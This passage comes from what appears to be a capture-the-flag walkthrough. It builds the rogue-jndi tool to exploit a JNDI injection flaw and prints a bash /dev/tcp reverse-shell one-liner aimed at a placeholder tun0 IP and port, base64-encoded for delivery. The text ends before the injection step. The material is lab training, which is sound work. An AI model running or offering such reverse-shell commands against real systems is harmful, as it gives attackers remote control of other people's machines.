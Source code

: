 ### rogue-jndi

Knowing that, we are going to try and get a `reverse shell` so we can interact with the underlying Linux operating system. First, you need to clone and build the tool, `rogue-jndi` from this `GitHub` repository: https://github.com/veracode-research/rogue-jndi

At first, type:

```
sudo apt install openjdk-11-jdk -y 
```

Then:

```
sudo apt-get install maven
```

Now, just paste in path of your choice this `oneliner`: 

```
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package
```

![rogue-jndi](./Screenshots/unifiedjndi.png)

![rogue-jndi](./Screenshots/unifiedjndi2.png)

After compiling the JAR file, we'll need to create a command to send the `reverse shell`. Since this system doesn't have `Netcat` by default, we'll need to craft a `reverse shell command` and then encode it in `Base64`. Use the provided one-liner to do this:

```
echo 'bash -c bash -i >&/dev/tcp/{your tun0 ip}/{port of your choice} 0>&1' | base64
```
